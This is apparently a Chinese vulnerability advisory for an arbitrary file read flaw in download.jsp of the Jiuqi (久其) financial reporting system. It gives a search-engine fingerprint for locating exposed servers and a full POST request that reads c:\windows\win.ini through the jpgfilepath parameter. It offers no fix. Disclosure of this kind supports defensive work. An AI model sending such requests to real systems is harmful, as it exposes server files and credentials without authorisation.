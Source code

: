 # 久其财务报表 download.jsp 任意文件读取漏洞

## 漏洞描述

久其财务报表 download.jsp 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的信息

## 漏洞影响

<a-checkbox checked>久其财务报表</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="/netrep/"</a-checkbox></br>

## 漏洞复现

登录路径如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313145950658.png)



发送请求包

```plain
POST /netrep/ebook/browse/download.jsp HTTP/1.1
Host: 
Content-Length: 55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded

jpgfilepath=c:\windows\win.ini
```

![image-20220321114620970](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220321114620970.png)